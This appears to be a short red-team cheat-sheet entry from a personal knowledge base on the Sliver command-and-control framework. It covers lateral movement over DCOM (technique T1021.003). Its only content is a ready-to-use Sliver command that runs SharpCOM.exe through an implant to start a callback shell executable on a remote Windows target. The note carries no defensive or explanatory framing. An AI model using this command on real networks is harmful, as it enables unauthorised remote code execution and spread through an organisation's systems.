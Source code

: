 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - sliver
  - windows
---
```

# Sliver

## 01 - Spawn Callback Shell

```
sliver (IMPLANT_NAME) > execute-assembly /path/local/to/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\shell.exe"
```

---
## References

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x06 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Binaries]]